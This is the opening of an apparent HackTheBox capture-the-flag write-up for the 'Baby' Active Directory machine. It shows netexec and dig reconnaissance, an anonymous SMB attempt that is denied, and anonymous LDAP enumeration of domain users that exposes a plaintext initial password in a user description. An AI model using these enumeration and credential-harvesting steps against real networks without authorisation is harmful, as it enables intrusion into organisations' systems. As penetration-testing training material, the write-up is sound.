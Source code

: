 We can already see the domain using `netexec` so we can add it to our `/etc/hosts` file

```bash
netexec smb $TARGET
SMB         10.129.50.21    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False) 
```

Let's start off by enumerating *DNS* using `dig`&#x20;

```bash
dig @$TARGET baby.vl NS
baby.vl.		3600	IN	NS	babydc.baby.vl.
```

We can see also the *fully qualified domain* name of the `DC`&#x20;

Now let's enumerate `SMB` on the target machine using a *NULL Session* in `netexec` &#x20;

```bash
netexec smb babydc.baby.vl -u '' -p '' --users --shares --rid-brute
SMB         10.129.50.21    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False) 
SMB         10.129.50.21    445    BABYDC           [+] baby.vl\: 
SMB         10.129.50.21    445    BABYDC           [-] Error enumerating shares: STATUS_ACCESS_DENIED
SMB         10.129.50.21    445    BABYDC           [-] Error connecting: LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
```

We see here that our access is blocked using in `SMB`, let's  try `LDAP` using `netexec` again

```bash
 netexec ldap babydc.baby.vl -u '' -p '' --users
LDAP        10.129.50.21    389    BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
LDAP        10.129.50.21    389    BABYDC           [+] baby.vl\: 
LDAP        10.129.50.21    389    BABYDC           [*] Enumerated 9 domain users: baby.vl
LDAP        10.129.50.21    389    BABYDC           -Username-                    -Last PW Set-       -BadPW-  -Description-                              
LDAP        10.129.50.21    389    BABYDC           Guest                         <never>             2        Built-in account for guest access to the computer/domain
LDAP        10.129.50.21    389    BABYDC           Jacqueline.Barnett            2021-11-21 15:11:03 2                                                   
LDAP        10.129.50.21    389    BABYDC           Ashley.Webb                   2021-11-21 15:11:03 2                                                   
LDAP        10.129.50.21    389    BABYDC           Hugh.George                   2021-11-21 15:11:03 2                                                   
LDAP        10.129.50.21    389    BABYDC           Leonard.Dyer                  2021-11-21 15:11:03 2                                                   
LDAP        10.129.50.21    389    BABYDC           Connor.Wilkinson              2021-11-21 15:11:08 2                                                   
LDAP        10.129.50.21    389    BABYDC           Joseph.Hughes                 2021-11-21 15:11:08 2                                                   
LDAP        10.129.50.21    389    BABYDC           Kerry.Wilson                  2021-11-21 15:11:08 2                                                   
LDAP        10.129.50.21    389    BABYDC           Teresa.Bell                   2021-11-21 15:14:37 2        Set initial password to BabyStart123!      
LDAP        10.129.50.21    389    BABYDC           Caroline.Robinson             2021-11-21 15:14:37 2             
  ~/HackTheBox/Medium/Baby/nmap ❯ 
```
